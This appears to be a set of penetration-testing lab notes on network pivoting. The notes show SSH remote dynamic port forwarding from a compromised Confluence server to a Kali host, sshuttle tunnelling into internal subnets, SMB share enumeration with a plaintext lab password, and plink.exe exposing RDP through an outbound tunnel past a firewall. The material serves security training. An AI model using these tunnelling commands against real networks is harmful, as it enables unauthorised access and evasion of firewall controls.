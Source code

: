 #### SSH Remote Dynamic Port Forwarding

Open up a listening socket on the ssh_server and use the same sock proxy port to reach out the internal network that's reachable by the ssh_client.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4
```
Scenario:
![[d72023c92ecbe23dac582a4cb42c9292-PRAT2_5_0_SSHRemoteDynamicPortForwarding.png]]

#### Using sshuttle

we can run **sshuttle**, specifying the SSH connection string we want to use, as well as the subnets that we want to tunnel through this connection (**10.4.50.0/24** and **172.16.50.0/24**).

```
kali@kali:~$ sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
[local sudo] Password: 

database_admin@192.168.50.63's password: 

c : Connected to server.
Failed to flush caches: Unit dbus-org.freedesktop.resolve1.service not found.
fw: Received non-zero return code 1 when flushing DNS resolver cache.
```

in theory, it should have set up the routing on our Kali machine so that any requests we make to hosts in the subnets we specified will be pushed transparently through the SSH connection. Let's test if this is working by trying to connect to the SMB share on HRSHARES in a new terminal.

```
kali@kali:~$ smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        scripts         Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 172.16.50.217 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

kali@kali:~$
```
#### Using plink.exe on windows
```
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
This will set up a remote port forwarding from a listing port on our kali ssh_server to a the RDP port on the windows machine we ran plink from. This way we expose rdp through our outbound SSH tunnel, although direct inbound traffic to 3389 is blocked by the FW.
